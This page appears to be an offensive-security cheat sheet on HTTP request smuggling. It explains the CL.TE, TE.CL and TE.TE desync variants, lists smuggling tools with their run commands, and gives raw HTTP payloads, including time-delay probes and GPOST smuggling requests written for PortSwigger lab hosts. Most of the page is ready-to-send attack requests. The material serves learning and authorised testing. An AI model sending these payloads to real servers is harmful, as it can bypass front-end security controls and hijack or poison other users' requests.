 # HTTP Request Smuggling

## General

<p>
HTTP request smuggling is a technique for interfering with the way a web site processes sequences of HTTP requests that are received from one or more users. Request smuggling vulnerabilities are often critical in nature, allowing an attacker to bypass security controls, gain unauthorized access to sensitive data, and directly compromise other application users. Request smuggling attacks involve placing both the Content-Length header and the Transfer-Encoding header into a single HTTP request and manipulating these so that the front-end and back-end servers process the request differently. The exact way in which this is done depends on the behavior of the two servers: Most HTTP request smuggling vulnerabilities arise because the HTTP specification provides two different ways to specify where a request ends: the Content-Length header and the Transfer-Encoding header.
</p>

## Tools

```bash
# https://github.com/defparam/smuggler
python3 smuggler.py -u <URL>
# https://github.com/defparam/tiscripts

# https://github.com/anshumanpattnaik/http-request-smuggling/
python3 smuggle.py -u <URL>

# https://github.com/assetnote/h2csmuggler
go run ./cmd/h2csmuggler check https://google.com/ http://localhost


# HTTP/2
# https://github.com/BishopFox/h2csmuggler
```

## Samples

```http
- The Content-Length header is straightforward: it specifies the length of the message body in bytes. For example:

    POST /search HTTP/1.1
    Host: normal-website.com
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 11

    q=smuggling

- The Transfer-Encoding header can be used to specify that the message body uses chunked encoding. This means that the message body contains one or more chunks of data. Each chunk consists of the chunk size in bytes (expressed in hexadecimal), followed by a newline, followed by the chunk contents. The message is terminated with a chunk of size zero. For example:

    POST /search HTTP/1.1
    Host: normal-website.com
    Content-Type: application/x-www-form-urlencoded
    Transfer-Encoding: chunked

    b
    q=smuggling
    0



• CL.TE: the front-end server uses the Content-Length header and the back-end server uses the Transfer-Encoding header.
   ◇ Find - time delay:
    POST / HTTP/1.1
    Host: vulnerable-website.com
    Transfer-Encoding: chunked
    Content-Length: 4

    1
    A
    X
• TE.CL: the front-end server uses the Transfer-Encoding header and the back-end server uses the Content-Length header.
   ◇ Find time delay:
    POST / HTTP/1.1
    Host: vulnerable-website.com
    Transfer-Encoding: chunked
    Content-Length: 6

    0

    X
• TE.TE: the front-end and back-end servers both support the Transfer-Encoding header, but one of the servers can be induced not to process it by obfuscating the header in some way.

- CL.TE
    Using Burp Repeater, issue the following request twice:
    POST / HTTP/1.1
    Host: your-lab-id.web-security-academy.net
    Connection: keep-alive
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 6
    Transfer-Encoding: chunked

    0

    G
    The second response should say: Unrecognized method GPOST.

 - TE.CL
    In Burp Suite, go to the Repeater menu and ensure that the "Update Content-Length" option is unchecked.
    Using Burp Repeater, issue the following request twice:
    POST / HTTP/1.1
    Host: your-lab-id.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-length: 4
    Transfer-Encoding: chunked

    5c
    GPOST / HTTP/1.1
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 15

    x=1
    0

 - TE.TE: obfuscating TE Header
     In Burp Suite, go to the Repeater menu and ensure that the "Update Content-Length" option is unchecked.
    Using Burp Repeater, issue the following request twice:
    POST / HTTP/1.1
    Host: your-lab-id.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-length: 4
    Transfer-Encoding: chunked
    Transfer-encoding: cow

    5c
    GPOST / HTTP/1.1
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 15

    x=1
    0
```

![](../../.gitbook/assets/20200520131941\[1].jpg)

